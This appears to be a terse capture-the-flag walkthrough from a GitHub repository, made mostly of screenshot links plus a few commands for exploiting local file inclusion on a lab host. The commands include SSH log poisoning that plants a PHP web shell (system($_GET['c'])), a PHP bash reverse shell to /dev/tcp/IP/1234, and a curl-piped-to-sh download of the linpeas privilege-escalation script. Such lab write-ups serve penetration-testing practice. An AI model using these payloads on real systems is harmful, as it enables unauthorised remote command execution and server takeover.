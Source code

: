 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a7b2dd5a-fb75-4691-a800-9242f265814a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0b142f2a-075f-4e6a-9b78-537719ee7601)

https://book.hacktricks.xyz/pentesting-web/file-inclusion

```
cat dot-slash-PathTraversal_and_LFI_pairing.txt | sed -e "s/.$//" > out.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9de9f00f-146c-49c8-997c-44bacc0508dd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bc2ef9b8-2236-4d56-ba7a-23b609ee2585)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ab24a67-25e2-4444-8220-b349985610f1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/65bd9ced-057c-4e2e-a7e6-e070ebdae6ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/011afb6b-8892-416c-90d9-ab6c89ecac41)
```
ssh '<?php phpinfo(); ?>'@62.173.140.174 -p 18222
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/13130953-76fa-43cb-88b9-5f2decc00ef2)
```
ssh '<?php system($_GET["c"]); ?>'@62.173.140.174 -p 18222 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4b1329e2-6d08-489e-ba41-6602ceecd0f1)
```
<?php echo system("bash -c 'sh -i >& /dev/tcp/IP/1234 0>&1'"); ?>
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/14e6cc27-f3a7-4e6d-9378-616bc830e1e5)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/489e27fa-de48-4828-b03f-e41a62867677)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bb44f435-2de2-4764-b247-ae4c58e92df1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/581dcba0-594e-4ad2-9ac6-0525a235bf41)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d521a65d-c4c8-41ba-98e3-4580def623ea)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/507dc651-902e-4159-b0a6-321e1c2ab139)
```
ssh steve@62.173.140.174 -p 18222
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4afcf2d1-ed79-4424-8bba-c235f718bece)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/55d39d9c-cdf8-49e0-8a34-e670fafedbb8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5e9721d2-3e0b-4bc6-8fe9-468347c0c2d9)



